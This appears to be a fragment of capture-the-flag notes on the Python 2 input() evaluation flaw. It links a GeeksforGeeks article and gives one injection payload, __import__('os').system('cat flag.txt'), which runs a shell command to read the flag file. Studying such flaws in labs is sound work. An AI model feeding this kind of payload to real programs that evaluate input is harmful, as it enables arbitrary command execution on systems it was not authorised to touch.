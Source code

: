 [https://www.geeksforgeeks.org/vulnerability-input-function-python-2-x/](https://www.geeksforgeeks.org/vulnerability-input-function-python-2-x/)

![file:///tmp/.ZBR081/1.png](file:///tmp/.ZBR081/1.png)

__import__('os').system('cat flag.txt')
